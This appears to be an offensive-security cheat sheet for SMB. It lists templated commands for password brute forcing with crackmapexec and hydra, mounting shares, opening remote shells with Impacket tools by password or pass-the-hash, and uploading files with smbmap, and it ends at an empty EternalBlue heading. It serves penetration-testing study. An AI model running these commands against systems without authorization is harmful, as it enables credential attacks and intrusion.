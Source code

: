 ### SMB Brute force

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

### Mount a SMB share

```

sudo mount -t cifs //<IP>/<SHARE> /mnt
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /mnt

# Mount as a guest
sudo mount -t cifs -o <permissions>,guest //<IP>/<SHARE> /mnt

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

### Mount any

```
# guestmount can mount any kind of disk file
sudo apt-get install libguestfs-tools
guestmount --add yourVirtualDisk.vhdx --inspector --ro /mnt/anydirectory

```

### Get a shell

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### Upload with SMBMap

```
smbmap -H <HOST> --upload '<TOBEUPLOADED>' '<PATH>/<UPLOADNAME>'
```

### EternalBlue (MS17-010)
